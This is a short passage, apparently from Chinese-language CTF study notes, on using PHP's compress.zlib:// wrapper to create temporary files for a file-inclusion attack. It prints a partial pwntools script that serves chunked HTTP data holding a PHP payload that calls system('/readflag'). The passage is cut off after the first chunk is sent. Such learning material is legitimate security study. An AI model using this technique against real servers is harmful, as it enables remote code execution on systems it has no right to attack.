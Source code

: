 ![](./img/include_10.png)

## compress.zlib生成临时文件

参考陆老师的文章：[36c3 Web 学习记录](https://blog.zeddyu.info/2020/01/08/36c3-web/#includer)

是临时文件包含的延伸利用姿势，可以使用`compress.zlib://`来生成临时文件，需要自己开一个`http server`返回大文件：

```python
from pwn import *
import requests
import re
import threading
import time


def send_chunk(l, data):
    l.send('''{}\r
{}\r
'''.format(hex(len(data))[2:], data))

while(True):
    l = listen(9999)
    l.wait_for_connection()

    data1 = ''.ljust(1024 * 8, 'X')
    data2 = '<?php system("/readflag"); exit(); /*'.ljust(1024 * 8, 'b')
    data3 = 'c*/'.rjust(1024 * 8, 'c')

    l.recvuntil('\r\n\r\n')
    l.send('''HTTP/1.1 200 OK\r
Content-Type: exploit/revxakep\r
Connection: close\r
Transfer-Encoding: chunked\r
\r
''')

    send_chunk(l, data1)

```